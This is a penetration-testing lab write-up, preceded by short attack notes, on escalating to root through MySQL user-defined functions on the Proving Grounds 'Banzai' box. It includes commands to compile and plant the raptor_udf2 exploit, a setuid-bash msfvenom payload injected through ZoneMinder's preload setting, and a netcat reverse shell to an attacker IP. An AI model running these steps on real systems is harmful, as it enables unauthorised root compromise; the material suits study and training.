 
##
#
https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
#
https://r3dbuck3t.notion.site/MySQL-UDF-functions-3542db4a45ba4b7ea9b946098f9f80a3
#
##



```
harvest pass...
 /things/www/webroot/zoneminder/www/api/app/Config/database.php

gen shared object lib...
msfvenom -p linux/x64/exec CMD="cp /bin/bash /var/tmp/bash; chmod u+s /var/tmp/bash;" -f elf-so -o yoyo.so

do the things...
yoyo.so to /var/tmp/yoyo.so
mysql -u zmuser -pROOTPASSWORDLOL -e "use zm;update Config set value='/var/tmp/yoyo.so' where name='ZM_LD_PRELOAD';"

A .so file on Linux is a shared object file, which is a dynamic-link library format used by the Linux operating system and other Unix-like systems.
Shared object files are similar to dynamic link libraries (DLLs) on Windows systems. These files contain compiled code and data that can be used by multiple programs at the same time.
The term "shared" indicates that multiple programs can share the code in memory, reducing redundancy and improving system efficiency.

```

Privilege Escalation with MySQL User Defined Functions
Nairuz Abulhul
R3d Buck3T
Nairuz Abulhul

·




Extending MySQL functionality with UDFs — Banzai, Proving Grounds


https://unsplash.com/photos/qeiyUaSX6fk — Miguel Teirlinck
Functions are a block of queries and statements that take inputs and return values. All popular database systems provide a wide range of built-in functions to perform operations and tasks related to their systems.

Sometimes, there is a need to create custom functions that are not available through the built-in functions to perform specific operations. Relational database systems provide that flexibility and the mechanism to allow users to create their custom functions and run them natively the same way as the built-ins; they are called User Defined Functions (UDF).

UDF functions are language agnostic; they are written in any programming language to be compiled natively into a shared library. Usually, the steps involve writing a library, either a shared object in Linux, or DLL in Windows, putting that library into a system directory, then creating the SQL functions.

These functions can be modified independently, and stored in the database for multiple uses.

From an offensive perspective, that is great news 😈. We can create malicious functions to run commands on the underlying operating system with the same privileges as the running service. If the compromised target runs a SQL server as root, we can run the commands as root as well.

This post will walk through creating a UDF function to escalate privileges on a Linux system that runs MySQL database server as root. The performing steps are on the Banzai machine from Offensive Security — Proving Grounds.

🔥$_Attack_Steps
We have the initial foothold as a low priv user “www-data” user. Through the post-exploitation enumeration, I found there is a MySQL server running locally on port 3306. Looking into the processes list, I found the MySQL process is running as root.


Looking through the config.php file, I found the password for the root user. Before this box, I didn’t know about UDF functions. However, I know that mysql provides a way to execute shell commands directly to the system. So, I started searching for ways to execute commands as root since I have access as one, and I came across the UDF functions and the raptor exploits by Macro Ivaldi that works on MySQL.


UDF exploit
We download the exploit locally with wget command, then transfer the exploit to the target machine to compile it with gcc since it is installed on the machine. Then compile the exploit, and make it a shared library.

📌 It is essential to take into consideration the target machine architecture when compiling the exploit to avoid running into errors later.

gcc -g -c raptor_udf2.c  #compile the exploit code
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc        #create the shared library (so)

compiling an exploit
Next step, we connect to the MySQL database with the retrieved credentials and look around for the location of the plugins directory where MySQL stores its UDF functions. Then, we move the shared library we compiled earlier into that directory.

Authenticating to mysql

mysql -u root -p
Locating the Plugins Path:

show variables like '%plugin%';

searching for the locations of the plugins directory
Also, we need to check if the variable secure_file_priv is enabled to allow data import and export operations like load_file and load_data functions.

If the returned value is null/empty, as in the below screenshot, it means the variable is disabled, and we can load data into the database.

show variables like '%secure_file_priv%';

secure_file_priv is disabled
Now we know where we should store the exploit and have all the needed permissions. Next, we will switch to the mysql database and create the UDF function inside mysql to point to our compiled exploit (shared library).

Switch to mysql database.
use mysql;

Create a table to hold the exploit code.
create table foo(line blob);
Import the exploit by inserting its contents into the table. Provide the directory path of where the exploit was compiled. In our case, it was compiled in the /var/www directory, where the current user “www-data” has writing permissions.
insert into foo values(load_file('/var/www/raptor_udf2.so'));

Next, select the binary contents in the shared library and dump them onto the plugins directory, where UDFS can be stored.
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Lastly, call the exploit by creating a function that invokes it.
create function do_system returns integer soname 'raptor_udf2.so';

Confirm the function is present in mysql.
select * from mysql.func;
We have the “do_system” function created. Great !!!


After creating the UDF function, let’s test it by running an OS command like “id” and redirect its output to a file we can read.

select do_system('id > /var/www/output; chown www-data www-data  /var/www/output');

output file shows the command executed as root
We see that our id id root. Now, we can pass the function a netcat command to get a shell back to our machine.

select do_system('nc 192.168.49.136 8080 -e /bin/bash');

running netcat shell

root user — netcat shell
That’s all for today. Thanks for reading.

All of the used commands can be found at R3d-Buck3T — Notion (Linux — Privilege Escalation via MySQL)

